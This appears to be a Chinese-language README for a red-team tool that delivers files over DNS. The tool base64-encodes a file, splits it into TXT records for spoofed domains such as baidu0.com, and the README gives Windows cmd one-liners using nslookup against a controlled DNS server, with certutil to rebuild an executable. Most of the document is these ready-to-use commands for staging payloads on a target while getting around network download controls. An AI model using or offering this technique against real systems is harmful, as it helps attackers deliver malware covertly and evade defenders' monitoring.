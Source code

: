 # 原理
利用dns的TXT记录，先把要写入的文件base64编码，然后把文件先切割为32kb的数组列表: L1, L2....，再将每个元素切割为长度为254的列表，将此作为txt记录返回。

## 0x1. 文件托管
python dnsWrite.py <calc.exe>


## 0x2. 写入文件
利用域名的Txt解析，从baidu0.com开始解析：`baidu0.com、baidu1.com ...`，客户端输入以下命令，一直到服务端出现数组索引超时为止(IndexError: list index out of range)，表示发送完毕，客户端再利用`certutil -decode decode.txt calc.exe`转码为exe文件:

```cmd
cmd /v:on /Q /c "set a= && set b=  && for /f "tokens=*" %i in ('nslookup -qt^=TXT baidu0.com 192.168.2.3 ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" >> decode.txt 

cmd /v:on /Q /c "set a= && set b=  && for /f "tokens=*" %i in ('nslookup -qt^=TXT baidu1.com 192.168.2.3 ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" >> decode.txt 

...
```

## 0x3. 参考文章
* [远程下载的通用替代方案 ｜ 红队攻防](https://mp.weixin.qq.com/s/Z1zp7klk--uQ1OnzljNESw)
